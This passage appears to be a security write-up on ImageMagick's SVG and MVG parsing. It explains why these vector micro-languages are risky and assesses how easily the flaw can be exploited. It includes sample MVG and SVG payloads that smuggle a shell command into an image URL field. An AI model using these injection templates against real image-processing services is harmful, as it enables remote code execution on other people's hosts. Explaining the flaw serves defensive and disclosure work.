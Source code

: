 It seems, short of a major redesign the entire ImageMagick codebase, the trickle of security vulnerabilities won't be stopping anytime soon. It just hasn't been designed with security in mind.



## The SVG and MVG file formats (micro languages)

Perhaps the most dangerous aspect of ImageMagick lies in its implementation of micro languages (DSL's) for the Scalable Vector Graphic (the W3C standardised vector format) and its own Magick Vector Graphics (MVG) specification. These specifications, whilst powerful, bring with them a insane amount of complexity, and potential specification misinterpretion and security vulnerabilities in their implementations.

> The Magick Vector Graphics (MVG) specification is a modularized language for describing two-dimensional vector and mixed vector/raster graphics in ImageMagick. You can use the language to draw from the command line, from an MVG file, from an SVG -- Scalable Vector Graphics file or from one of the ImageMagick program interfaces.


The following example MVG command will render an arc:

    convert -size 100x60 canvas:skyblue -fill white -stroke black \
      -draw "path 'M 30,40  A 30,20  20  0,0 70,20 A 30,20  20  1,0 30,40 Z '" \
      arc.png

A more malicous varient of MVG that injects some extra shell:

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg";|ls "-la)'
    pop graphic-context


Similarly SVG's are just as dangerous:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1"
   xmlns="http://www.w3.org/2000/svg";
   xmlns:xlink="http://www.w3.org/1999/xlink";>
<image xlink:href="https://example.com/image.jpg&quot;|ls &quot;-la" 
  x="0" y="0" height="640px" width="480px"/>
</svg>
```






# Analysis of exploitation pathways

In terms of complexity to make use of the exploit, it sits on the simpler side, requiring little effort or skill.

Given ImageMagick is a go to heavy lifting image processing library put to work by many, coupled with a code execution bug, could enable attackers to gain code execution in hosts that themselves have no remote network access.
